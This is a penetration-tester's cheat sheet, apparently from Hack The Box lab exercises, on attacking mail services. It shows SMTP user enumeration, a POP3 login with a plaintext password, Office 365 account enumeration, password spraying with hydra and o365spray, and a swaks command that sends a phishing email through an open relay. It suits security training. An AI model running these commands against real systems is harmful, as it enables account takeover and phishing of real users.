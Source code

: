 # Enumeration
```bash
host -t MX microsoft.com

microsoft.com mail is handled by 10 microsoft-com.mail.protection.outlook.com.
```

```bash
dig mx plaintext.do | grep "MX" | grep -v ";"

plaintext.do.           7076    IN      MX      50 mx3.zoho.com.
plaintext.do.           7076    IN      MX      10 mx.zoho.com.
plaintext.do.           7076    IN      MX      20 mx2.zoho.com.
```

```bash
host -t A mail1.inlanefreight.htb.

mail1.inlanefreight.htb has address 10.129.14.128
```
## Ports
**Port** 	        **Service**
TCP/25 	    SMTP Unencrypted
TCP/143 	    IMAP4 Unencrypted
TCP/110 	    POP3 Unencrypted
TCP/465 	SMTP Encrypted
TCP/587 	SMTP Encrypted/STARTTLS
TCP/993 	IMAP4 Encrypted
TCP/995 	POP3 Encrypted
## Misconfigurations
### SMTP
```bash
# check username validity
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table

# show all users in list
EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb

# dunno what it is
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```
### POP3
```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio
-ERR

USER john
+OK

PASS 8Ns8j1b!23hs4921smHzwn
+OK Logged in.

LIST
+OK 1 messages:
1 1630
.
RETR 1
<MAIL CONTENT>
```
### Automation
https://github.com/pentestmonkey/smtp-user-enum
```bash
git clone https://github.com/pentestmonkey/smtp-user-enum&& cd smtp-user-enum
# -M VRFY, EXPN, RCPT
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
# Cloud enumeration
## Microsoft Office 365
https://github.com/0xZDH/o365spray
```bash
python3 o365spray.py --validate --domain msplaintext.xyz

python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
<SNIP>
[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'
```
# Password Attacks
```bash
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

# cloud password spraying
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
# Open relay
Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. 
```bash
# detect open relay
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
# connect and send mail
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

# Send mail
```bash
echo -e 'http://localhost:3000/axel/teta' | sendmail jobert@cat.htb
```